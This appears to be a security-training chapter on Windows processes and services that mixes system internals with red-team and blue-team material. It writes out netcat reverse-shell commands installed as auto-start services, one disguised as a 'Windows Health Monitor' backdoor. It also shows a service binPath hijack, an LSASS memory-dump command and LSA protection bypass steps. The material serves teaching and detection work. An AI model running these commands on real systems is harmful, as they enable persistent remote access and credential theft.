


# Windows Services & Processes: The Engine Room

## 1. Introduction
To the average user, Windows is a Desktop. To the Kernel, Windows is a collection of **Objects**, **Threads**, and **Processes**.

This chapter dissects the lifecycle of Windows Services and Processes. Why? Because **Persistence**, **Privilege Escalation**, and **Evasion** all live here. If you understand how `svchost.exe` works, you understand where malware hides.

---

## 2. Process Architecture

### 2.1 The "Holy Trinity" of System Processes
When a system boots, specific processes start in a specific order. Deviations here indicate malware.

1.  **System (PID 4)**: Not a real process. Represents Kernel-mode threads.
2.  **smss.exe (Session Manager)**: The first user-mode process. Starts `csrss.exe` and `wininit.exe`.
3.  **csrss.exe (Client/Server Runtime Subsystem)**:
    *   **Role**: Manage console windows, create/delete threads.
    *   **Critical**: Killing this BSODs the machine.
    *   **Security**: Always 2+ instances (Session 0 and Session 1).
4.  **wininit.exe**:
    *   Starts **services.exe** (SCM), **lsass.exe** (Auth), and **lsm.exe** (Local Session Manager).
5.  **lsass.exe (Local Security Authority)**:
    *   **Role**: Verifies logins, creates Access Tokens.
    *   **Target**: Contains Hashes and Tickets.
6.  **svchost.exe (Service Host)**:
    *   **Role**: Container for DLL-based services.
7.  **explorer.exe**: The User's Shell.

### 2.2 Process Integrity Levels
Introduced in Vista to prevent "Low" processes (Internet Explorer) from writing to "High" areas (System32).
*   **System**: `NT AUTHORITY\SYSTEM`
*   **High**: Administrators (Elevated).
*   **Medium**: Standard Users (or Admins with UAC filtered token).
*   **Low**: Sandboxed processes (Browsers).

**Attack Vector**: A Medium process cannot inject code into a High process (UIPI - User Interface Privilege Isolation), even if the user is Admin. You must Bypass UAC first.

---

## 3. Windows Services (SCM)

### 3.1 Service Accounts
Services do not run as "Users" in the traditional sense.
1.  **LocalSystem (`NT AUTHORITY\SYSTEM`)**:
    *   Highest privilege on local machine.
    *   Network Identity: Computer Account (`DOMAIN\COMPUTER$`).
    *   **Risk**: If you compromise a LocalSystem service, you own the box.
2.  **NetworkService**:
    *   Low privilege locally.
    *   Network Identity: Computer Account (`DOMAIN\COMPUTER$`).
    *   **Usage**: DNS Client, DHCP.
3.  **LocalService**:
    *   Low privilege locally.
    *   Network Identity: Anonymous (`NULL Session`).

### 3.2 Service Control Manager (SCM)
The SCM (`services.exe`) manages the database of installed services.
*   **Command Line**: `sc.exe`
*   **PowerShell**: `Get-Service`, `Set-Service`.

**Key Commands for Attackers**:
```cmd
# 1. Query Configuration (Look for Binary Path and Account)
sc qc <ServiceName>

# 2. Query Status
sc query <ServiceName>

# 3. Create a Malicious Service (Persistence)
sc create MyBackdoor binPath= "C:\Temp\nc.exe -e cmd 10.10.10.10 4444" start= auto

# 4. Modify Existing Service (Privilege Escalation)
sc config <ServiceName> binPath= "C:\Temp\malware.exe"
```

### 3.3 The `svchost.exe` Mystery
Why are there 50 instances of `svchost.exe`?
*   Services are often implemented as **DLLs** (e.g., `termsrv.dll`), not EXEs.
*   You cannot run a DLL directly. `svchost.exe` is the wrapper.
*   **Registry**: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`. This key maps groups (e.g., `netsvcs`) to the list of services they host.

---

## 4. Offensive Operations (Red Team)

### 4.1 Process Injection Techniques
Moving from one process to another.

1.  **Classic DLL Injection**:
    *   `VirtualAllocEx` (Allocate memory in target).
    *   `WriteProcessMemory` (Write path to DLL).
    *   `CreateRemoteThread` (Execute `LoadLibrary(path)`).
    *   *Detection*: Easy. "Why is Calculator loading `evil.dll`?"

2.  **Reflective DLL Injection**:
    *   The DLL loads *itself* from memory. No file on disk.
    *   Bypasses "LoadLibrary" hooks.
    *   *Used by*: Metasploit (Meterpreter), Cobalt Strike.

3.  **Process Hollowing**:
    *   Launch a legitimate process (e.g., `svchost.exe`) in **Suspended** mode.
    *   Unmap its memory (remove original code).
    *   Write malicious code.
    *   Resume.
    *   *Result*: Trusted binary running malicious code.

4.  **Process Doppelgänging / Herpaderping**:
    *   Advanced techniques using NTFS Transactions (`TxF`) to overwrite the file on disk *after* the kernel has mapped it, confusing AV engines.

### 4.2 LSA Protection & Bypass
Microsoft introduced **RunAsPPL** (Protected Process Light) to stop Mimikatz from opening `lsass.exe`.
*   **Check**: Registry `HKLM\SYSTEM\CurrentControlSet\Control\Lsa` -> `RunAsPPL = 1`.
*   **Bypass**:
    1.  **Kernel Driver**: Use a vulnerable driver (e.g., msi Afterburner, Capcom) to enter Ring 0 and turn off the PPL bit in the EPROCESS structure. (Tool: `PPLKiller`).
    2.  **Remove it**: Set Reg key to 0 and reboot (if you are Admin).

---

## 5. Blue Team Perspective

### 5.1 Hunting Injection
*   **Memory permissions**: Look for **RWX** (Read-Write-Execute) pages in memory. Legitimate code is usually **RX** (Read-Execute).
    *   Tool: `Get-InjectedThread` (PowerShell).
*   **Orphaned Processes**: A process with no parent (Parent PID refers to a process that no longer exists).
*   **Wrong Parents**: `svchost.exe` should *only* be spawned by `services.exe`. If `explorer.exe` spawns `svchost.exe`, it is malware.

### 5.2 Service Auditing
*   **Event ID 7045**: A new service was installed. (High Fidelity Indicator of Compromise).
    *   *Hunt*: Look for 7045 events where "Service File Name" is in `C:\Temp` or `C:\Users`.

---

## 6. Practical Lab: Persistence via Services

### Scenario: The "Helpdesk" Backdoor
**Target**: You have Admin access. You want a shell every time the PC reboots.

**Step 1: Upload Payload**
Place `nc.exe` in `C:\Windows\System32\nc.exe` (Hides in plain sight).

**Step 2: Create Service**
```cmd
sc create "WindowsHealthMonitor" binpath= "cmd /c C:\Windows\System32\nc.exe 10.10.10.5 443 -e cmd" start= auto error= ignore displayname= "Windows Health Monitor"
```
*   `binpath`: Uses `cmd /c` to run the arguments.
*   `start= auto`: Starts on boot.
*   `displayname`: Looks legitimate in `services.msc`.

**Step 3: Verify**
```cmd
sc query WindowsHealthMonitor
net start WindowsHealthMonitor
```

**Step 4: Cleanup**
```cmd
sc delete WindowsHealthMonitor
```

---

## 7. Diagrams (Mermaid)

### Process Parent-Child Trust Tree



---

## 8. Critical Analysis

### The "Shared Process" Economy
Windows groups services to save memory.
*   **Attack**: If you crash one service in a shared `svchost` group, you crash *all* services in that group.
*   **Isolation**: `sc config <service> type= own`. This forces the service into its own `svchost.exe` process. Useful for debugging (or isolation).

### Interview Questions
1.  **Q**: How do you dump LSASS without Mimikatz?
    -   **A**: Use `comsvcs.dll` (Living off the Land).
    `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <LsassPID> <OutputFile> full`
    -   **A**: Use Task Manager (GUI).
    -   **A**: Use `Procdump.exe` (Sysinternals).
2.  **Q**: What is the difference between a Process and a Service?
    -   **A**: A Service is a background process managed by the SCM. It can start before any user logs on. A standard Process is usually tied to a user session.

---

## 9. References
- [[02_PowerShell_Offensive_Defensive]]
- [[05_Windows_Permissions_ACLs]]

# End of Document
